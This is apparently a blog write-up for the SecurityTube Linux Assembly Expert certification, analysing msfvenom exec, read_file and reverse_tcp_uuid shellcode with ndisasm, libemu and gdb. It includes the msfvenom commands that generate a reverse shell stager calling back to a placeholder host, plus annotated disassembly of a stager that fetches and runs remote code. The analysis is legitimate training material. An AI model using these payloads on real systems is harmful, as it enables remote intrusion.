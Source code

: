 ```yaml
---
layout: post
title:  SLAE32 Assignment 5 - msfvenom shellcode analysis
excerpt: analysis of code generated by msfvenom for payloads linux/x86/exec linux/x86/read_file linux/x86/shell/reverse_tcp_uuid
---
```


shellcode will be analyzed with ndisasm and libemu if possible, then with gdb to someway follow the flow.
i choose to analyze both basic commands and one reverse shell, the command i used to create payloads are:

>msfvenom -p linux/x86/exec CMD=/usr/bin/id -f raw > exec.raw
>msfvenom -p linux/x86/exec CMD=/usr/bin/id -f c > exec.c
>msfvenom -p linux/x86/exec CMD=/usr/bin/id > exec
>chmod + exec
>sctest -vvv -S -s 99999 -G exec.dot < exec
>dot -Tjpg exec.dot > exec.jpg

>msfvenom -p linux/x86/read_file PATH=/etc/hosts -f c > readfile.c
>msfvenom -p linux/x86/read_file PATH=/etc/hosts -f raw > readfile.raw
>msfvenom -p linux/x86/read_file PATH=/etc/hosts > readfile
>chmod +x readfile
>sctest -vvv -S -s 99999 -G readfile.dot < readfile
>dot -Tjpg readfile.dot > readfile.jpg

>msfvenom -p linux/x86/shell/reverse_tcp_uuid LHOST=1.2.3.4 LPORT=4444 -f c > reverse.c
>msfvenom -p linux/x86/shell/reverse_tcp_uuid LHOST=1.2.3.4 LPORT=4444 -f raw > reverse.raw
>msfvenom -p linux/x86/shell/reverse_tcp_uuid LHOST=1.2.3.4 LPORT=4444 > reverse
>chmod +x reverse
>sctest -vvv -S -s 99999 -G reverse.dot < reverse
>dot -Tjpg reverse.dot > reverse.jpg

because all the code is 32bit, i will use ndisasm -u to disasm.
about gdb, i choose to include a C file with msfvenom buf[] and recompile every time.
to break when shellcode is runt, you can b *&buf


## exec
ndisasm -u exec output and comments:

00000000  6A0B              push byte +0xb                             ;
00000002  58                pop eax                                    ; just place 0xb in eax
00000003  99                cdq                                        ; because eax is not negative, fills edx with 0
00000004  52                push edx                                   ; push 0x0 to esp (string terminator maybe?)
00000005  66682D63          push word 0x632d                           ; push -c to the stack
00000009  89E7              mov edi,esp                                ; move esp pointer to edi, i guess this will be an execve argument
0000000B  682F736800        push dword 0x68732f                        ; push hs/ (/sh)
00000010  682F62696E        push dword 0x6e69622f                      ; push nib/ (/bin/)
00000015  89E3              mov ebx,esp                                ; move esp pointer to ebx, esp holds: /bin/sh
00000017  52                push edx                                   ; push 0x0 because edx was nulled at 0x3
00000018  E80C000000        call 0x29                                  ; i liked a lot this call because it jumps to a non aligned code, fooling ndisasm and gdb
0000001D  2F                das                                        ; from here, useless junk until 0x29
0000001E  7573              jnz 0x93
00000020  722F              jc 0x51
00000022  62696E            bound ebp,[ecx+0x6e]
00000025  2F                das
00000026  696400575389E1CD  imul esp,[eax+eax+0x57],dword 0xcde18953
0000002E  80                db 0x80

moving to gdb, i set 05_shellcode.c to include exec.c, compiled and runt
with b *&buf
i know that the call is at 0x29 from buf, so i take buf starting address
in gdb and add 0x29: "offending" code is at 0x56559069
because gdb/GEF can also print instruction, i just use x/i to see the
code:
gef➤  x/4i 0x56559069
   0x56559069 <buf+41>: push   edi
   0x5655906a <buf+42>: push   ebx
   0x5655906b <buf+43>: mov    ecx,esp
   0x5655906d <buf+45>: int    0x80
gef➤

i already know something about my registers:
eax => 0xb (execve syscall id)
ebx => pointer to /bin/sh
edi => pointer to -c, which is the arg
esp => has on top /usr/bin/id

i see that edi is pushed, so esp will be: -c /usr/bin/id
ebx is pushed again, to have actually /bin/sh -c /usr/bin/id
pointer to shell is moved to ecx, and syscall is executed

at first you could think libemu is useless to analyze this simple code
because there is just one execve and some basic reg manipulation, but
because
she *emulates* the code, she's not fooled with that call 0x29 and i've
could seen the right flow from call to push/push/mov/execve

both reading exec.c and disassembled code, we can see that there are a
lot of null bytes. this code will surely need optimization if used
during an active exploitation.

## readfile

libemu wasn't able to emulate anything here, i'll dig as extra mile in
the near future.
back to gdb/ndisasm, this is ndisasm -u readfile output with some
comment ordered to follow the flow easily:
00000000  EB36              jmp short 0x38          ; 1) cool, starting with a jump will surely simplify analysis...
00000002  B805000000        mov eax,0x5             ; 3) eax => 0x5 , syscall open call
00000007  5B                pop ebx                 ; 4) using gdb i'll confirm this, i guess ebx will hold a filename
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80                ; 5) do the actual call
0000000C  89C3              mov ebx,eax             ; 6) because syscall place retcode in eax, and for open it's the fd, he saves it to ebx
0000000E  B803000000        mov eax,0x3             ; 7) eax => 0x3 , if it will be used as a syscall would be read
00000013  89E7              mov edi,esp             ;
00000015  89F9              mov ecx,edi             ; 9) read wants a fd as input and a place to store read data
00000017  BA00100000        mov edx,0x1000          ;10) how much data to read
0000001C  CD80              int 0x80                ; 8) ok it's the syscall read
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB01000000        mov ebx,0x1
0000002A  CD80              int 0x80                ;11) fast forward, do a syscall write to STDOUT
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80                ;12) clean exit
00000038  E8C5FFFFFF        call 0x2                ; 2) ok, this time the code is aligned and i see what's going on. looks like jmp-call-pop technique
0000003D  2F                das                     ;13) from here we could see read filename => 2F6574632F686F737473 => /etc/hosts
0000003E  657463            gs jz 0xa4
00000041  2F                das
00000042  686F737473        push dword 0x7374736f
00000047  00                db 0x00

on gdb, i want to confirm that the jmp-call-pop will return actually
/etc/hosts:
gdb ./readfile
b *&buf
r
c
n
si
and after → 0x56559047 <buf+7>          pop    ebx
we can see that now
$ebx   : 0x5655907d  →  "/etc/hosts"

both reading readfile.c and disassembled code, we can see that there are
a lot of null bytes. even if it's uncommon to read a file after an
active exploitation, this code would need optimization to remove null
bytes.

## reverse
as you can see in reverse.jpg , the flow is quite basic: create a socket, connect, do something. i already developed my own revshell and i think i'm familiar with the flow, so fastly to ndisasm:

00000000  6A0A              push byte +0xa
00000002  5E                pop esi                  ; put 0xa in esi, will use it to loop for reconnection in circa 0x2F
00000003  31DB              xor ebx,ebx
00000005  F7E3              mul ebx                  ; multiply ebx and eax, and put result in eax+edx. result in zeroing both eax and edx, because ebx has been zeroed in 0x3
00000007  53                push ebx
00000008  43                inc ebx
00000009  53                push ebx
0000000A  6A02              push byte +0x2           ; i remember doing almost the same 4 instruction to have 0,1,2  on the stack, which is common arg for a tcp reverse shell
0000000C  B066              mov al,0x66              ; and here we have socketcall socket
0000000E  89E1              mov ecx,esp              ; pointer to socket arg in ecx
00000010  CD80              int 0x80                 ; create the socket

00000012  97                xchg eax,edi             ; save socket fd in edi
00000013  5B                pop ebx                  ; top of stack is 0x2, put in ebx
00000014  6801020304        push dword 0x4030201     ; for connect, we need an ip address, translated it's 1.2.3.4
00000019  680200115C        push dword 0x5c110002    ; and a port, which is 0x5c11 => 0x115c => 4444
                                                     ; this push breaks the nullbyte requirement but it's cute because puts both port and 0x2 to have the struct full
0000001E  89E1              mov ecx,esp              ; put the pointer in ecx
00000020  6A66              push byte +0x66
00000022  58                pop eax                  ; in eax syscall for socketcall 0x66
00000023  50                push eax                 ; start preparing next syscall arg with address len
00000024  51                push ecx                 ; pointer to address struct 
00000025  57                push edi                 ; saved socket fd
00000026  89E1              mov ecx,esp              ; have pointer for
the whole struct in ecx
00000028  43                inc ebx                  ; ebx was 2, we
need 3 for the connect call
00000029  CD80              int 0x80                 ; do the connect

0000002B  85C0              test eax,eax             ; 0x29 return will be in eax, if 0 connection has been completed. test eax,eax sets SIGN flag if eax is negative
                                                     ; (most significant bit is >7f). will set SIGN to true if connect fails
0000002D  7944              jns 0x73                 ; if SIGN flag is not set, jumps to 0x73 which next "logic" step

0000002F  4E                dec esi                  ; if connection fails, try "esi times", when esi is 0xa (10)
00000030  7468              jz 0x9a                  ; as soon as esi is 0, jump to neat exit

00000032  68A2000000        push dword 0xa2          ; this will sleep 5 secs before to try again
00000037  58                pop eax
00000038  6A00              push byte +0x0
0000003A  6A05              push byte +0x5
0000003C  89E3              mov ebx,esp
0000003E  31C9              xor ecx,ecx
00000040  CD80              int 0x80

00000042  85C0              test eax,eax             ; eax is 0 because of nanosleep, so next jmp should always occur - or not just if nanosleep fails someway
00000044  79BD              jns 0x3                  ; jmp to buf+3, which is almost the start of the program
00000046  EB52              jmp short 0x9a           ; jmp to neat exit again

00000048  53                push ebx                 ; i bet this code won't be never reached
00000049  51                push ecx
0000004A  6A00              push byte +0x0
0000004C  6A10              push byte +0x10
0000004E  E810000000        call 0x63
00000053  91                xchg eax,ecx
00000054  21BDE454BC04      and [ebp+0x4bc54e4],edi
0000005A  6BA3C7A5C6FEA9    imul esp,[ebx-0x1395a39],byte -0x57
00000061  96                xchg eax,esi
00000062  2457              and al,0x57
00000064  89E1              mov ecx,esp
00000066  6A09              push byte +0x9
00000068  5B                pop ebx
00000069  6A66              push byte +0x66
0000006B  58                pop eax
0000006C  CD80              int 0x80
0000006E  83C410            add esp,byte +0x10
00000071  59                pop ecx
00000072  5B                pop ebx                  ; end of never-reached code?

00000073  B207              mov dl,0x7               ; 0x7 to dl doesn't say anything itself, seeing next syscall (0x7d at line 0x82) which is mprotect, we see that 0x7 will be "prot"
                                                     ; reading man mprotect we see that 0x7 means rwx
00000075  B900100000        mov ecx,0x1000           ; and ecx will hold size len, so make a full page rwx
0000007A  89E3              mov ebx,esp              ; move esp pointer to ebx, so mprotect knowns where to operate
0000007C  C1EB0C            shr ebx,byte 0xc         ; made useless by next one
0000007F  C1E30C            shl ebx,byte 0xc         ; makes useless prev one
00000082  B07D              mov al,0x7d              ; as said, mprotect syscall id
00000084  CD80              int 0x80

00000086  85C0              test eax,eax             ; like at 0x2B
00000088  7810              js 0x9a                  ; but jumps to 0x9a (exit) if mprotect returns a negative number therefore an error
0000008A  5B                pop ebx                  ; reading backward, se see that esp has on top socketfd: put in ebx. we can see it's a read syscall so we expect it will read from the socket itself
0000008B  89E1              mov ecx,esp              ; put esp to ecx.  read needs a pointer to a writable location, this means it will write to esp what she reads from the socket
0000008D  99                cdq                      ; eax is zero, so zero also edx to read unlimited bytes
0000008E  B60C              mov dh,0xc               ; edx will be 0xc
00000090  B003              mov al,0x3               ; read syscall
00000092  CD80              int 0x80

00000094  85C0              test eax,eax             ; because eax holds retcode, if zero sign flag will be unset if read doesn't return any error
00000096  7802              js 0x9a                  ; exit if any error
00000098  FFE1              jmp ecx                  ; jmp to received shellcode, executable because of mprotect

0000009A  B801000000        mov eax,0x1              ; neat exit
0000009F  BB01000000        mov ebx,0x1
000000A4  CD80              int 0x80


we see that libemu missed from the mprotect call afterwards, i bet it's
because of self protection.




*SLAE-1037*
*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/*

